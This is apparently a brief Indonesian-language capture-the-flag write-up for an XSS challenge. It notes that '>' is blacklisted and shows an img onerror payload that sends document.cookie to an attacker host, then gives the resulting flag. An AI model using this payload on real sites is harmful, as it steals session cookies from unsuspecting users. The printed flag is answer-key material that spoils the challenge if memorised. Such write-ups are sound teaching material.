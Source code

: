 Setelah bebrapa kali mencoba, kita menemukan hahwa `>` di black list

```
<img src=x onerror=this.src='https://attacker.id/123?'+document.cookie
```

kita tinggal settup webhooker, submit ke admin bot, dan mendapatkan flagnya:)

flag
hope{the_pastebin_was_irrelvant}